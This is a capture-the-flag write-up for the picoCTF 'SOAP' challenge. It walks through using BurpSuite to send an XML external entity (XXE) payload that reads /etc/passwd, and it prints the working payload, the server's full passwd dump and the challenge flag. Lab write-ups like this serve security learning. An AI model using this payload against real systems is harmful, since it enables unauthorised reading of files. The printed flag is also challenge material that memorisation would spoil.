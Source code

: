 ## SOAP

The challenge prompt is as follows:
```
Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.

```

On launching challenge instance, the following website link was provided:
```
http://saturn.picoctf.net:54466/
```
The hint states that it uses an XML entity injection. This was similar to Advent of Cyber day 5 challenge. Thus I immediately turned to using BurpSuite.

After launching the browser through BurpSuite and sending a POST request to repeater (which occurs when we click on ```Details```) on the website, the following XML code is found:
```
<?xml version="1.0" encoding="UTF-8"?>
<data><ID>1</ID></data>
```

I looked up XXE (XML external entity) online and found the following XML payload request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]> 
<data><ID>&xxe;</ID></data>
```

On sending the request, the flag is revealed in response:
```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 06 Dec 2024 07:01:42 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

Thus the flag procured is:
```
picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

```
